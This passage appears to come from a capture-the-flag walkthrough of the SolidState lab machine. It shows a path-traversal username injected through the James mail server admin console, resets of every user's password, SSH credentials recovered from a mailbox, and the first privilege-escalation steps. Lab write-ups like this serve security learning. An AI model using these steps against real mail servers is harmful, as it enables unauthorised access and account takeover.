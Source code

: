 ```
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
...
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d <-- our attack
user: thomas
user: john
user: mindy
user: mailadmin
...
adduser test test
User test added
```

From  we can run through all the users and reset their password with the following command(s)

`setpassword james test`

```
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

Creds! `mindy:P@55W0rd1!2@`

## Privesc

After sshing onto the box and running some simple commands to copy linpeas, and pspy, we find a crontab running a funny looking file in /opt.

![Crontab!](/assets/images/htb/solidstate/pspy.png)
